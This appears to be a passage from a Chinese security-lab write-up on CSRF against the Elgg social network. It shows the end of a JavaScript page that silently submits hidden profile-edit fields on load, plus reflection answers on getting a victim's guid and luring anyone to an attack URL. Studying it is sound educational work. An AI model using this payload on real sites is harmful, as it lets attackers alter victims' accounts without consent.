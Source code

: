 ```
    	// by attackers. The entries are made hidden, so the victim
    	// won&#39;t be able to see them.
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;name&#39; value=&#39;Boby&#39;&gt;&#34;;
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;description&#39; value=&#39;test&#39;&gt;&#34;;
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;accesslevel[description]&#39; value=&#39;2&#39;&gt;&#34;;
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;briefdescription&#39; value=&#39;test&#39;&gt;&#34;;
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;accesslevel[briefdescription]&#39; value=&#39;2&#39;&gt;&#34;;
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;location&#39; value=&#39;test&#39;&gt;&#34;;
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;accesslevel[location]&#39; value=&#39;2&#39;&gt;&#34;;
    	fields += &#34;&lt;input type=&#39;hidden&#39; name=&#39;guid&#39; value=&#39;40&#39;&gt;&#34;;
    	var url = &#34;http://www.csrflabelgg.com/action/profile/edit&#34;;
    	post(url,fields);
    }
    // invoke csrf_hack() after the page is loaded.
    window.onload = function() { csrf_hack();}
    &lt;/script&gt;
    &lt;/body&gt;&lt;/html&gt;
```

Boby用户访问前：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186567992?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Boby用户访问攻击url：www.csrflabattacker.com/csrf.html

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430792231780?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

Boby用户访问后：

![图片描述信息](https://dn-anything-about-doc.qbox.me/userid9094labid936time1430186621990?watermark/1/image/aHR0cDovL3N5bC1zdGF0aWMucWluaXVkbi5jb20vaW1nL3dhdGVybWFyay5wbmc=/dissolve/60/gravity/SouthEast/dx/0/dy/10)

#### 思考 

问题1：Alice用户使用csrf攻击boby用户，需要知道Boby用户的guid，但是Alice没有Boby的密码，她可以通过什么办法来获取Boby用户的guid？

&gt;    Alice可以先通过一个类似实验1这样的CSRF攻击来获取Boby用户的guid。

问题2：如果Alice想通过发送一个URL，不论是谁点击，谁就会受到CSRF攻击，受害者就会自动修改自己的资料，请解释一下要如何成功做到这样？

 &gt;   首先，要是CSRF攻击成功的前提是必须拥有用户的guid，我们可以通过使用csrf来先获取用户的guid，然后自动提交到guid的位置，这样不论是谁，只要他没有退出elgg系统，就访问了我们的攻击url就会自动编辑他们的资料；

### lab3 Elgg系统的CSRF防御 

Elgg系统中有一个针对CSRF内置的防御机制，上面的实验，我们注释了防御机制来攻击的！

